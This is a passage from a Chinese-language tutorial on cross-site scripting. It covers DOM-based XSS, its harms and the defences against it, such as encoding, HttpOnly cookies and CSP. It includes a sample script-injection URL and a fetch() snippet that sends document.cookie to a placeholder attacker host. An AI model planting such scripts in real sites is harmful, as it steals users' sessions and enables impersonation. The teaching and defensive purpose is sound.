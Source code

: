   用户构造 URL，触发脚本执行。

  ```
  http://example.com/#<script>alert('XSS');</script>
  ```

- **特点**：攻击完全在客户端发生，服务器日志中无异常记录。

### **三、XSS 的危害**

1. **窃取用户信息：有 cookie 可以无用户名密码登录**
   通过脚本获取用户的 Cookie、会话令牌或其他敏感数据，例如：

   ```javascript
   // 窃取Cookie并发送到攻击者服务器
   fetch('http://attacker.com/cookie', {
     method: 'POST',
     body: document.cookie
   });
   ```

2. **会话劫持**：
   利用窃取的会话令牌，冒充用户身份执行操作（如转账、修改密码）。

3. **钓鱼攻击**：
   动态修改页面内容，诱导用户输入敏感信息（如伪造登录表单）。

4. **破坏网站功能**：
   删除或篡改页面内容，影响正常用户体验。

### **四、XSS 的防御方法**

1. **输入过滤**：
   对用户输入的数据进行严格校验，拒绝或转义危险字符（如 `<`, `>`, `&`, `'`, `"`）。

2. **输出编码**：
   在将动态内容（如用户输入）插入 HTML、JavaScript 或 URL 前，进行编码处理：

   - HTML 编码：将 `<` 转为 `<`，`>` 转为 `>`。
   - JavaScript 编码：对字符串中的引号、反斜杠等进行转义。
   - URL 编码：对特殊字符进行百分比编码（如 转为 `%20`）。

3. **使用安全框架**：
   现代框架（如 React、Vue）默认对动态内容进行转义，减少 XSS 风险。

4. **HttpOnly Cookie**：
   在设置 Cookie 时添加 `HttpOnly` 标志，防止通过 JavaScript 窃取 Cookie。

5. **内容安全策略（CSP）**：
   通过 HTTP 响应头 `Content-Security-Policy` 限制页面可加载的资源来源，例如：

   ```plaintext
   Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com
   ```

   该策略禁止加载非信任源的脚本，有效防御 XSS。

6. **避免使用不安全的 API**：
   例如，避免使用 `innerHTML`、`document.write()` 等直接插入 HTML 的方法，改用 `textContent`、`setAttribute()` 等安全方法。
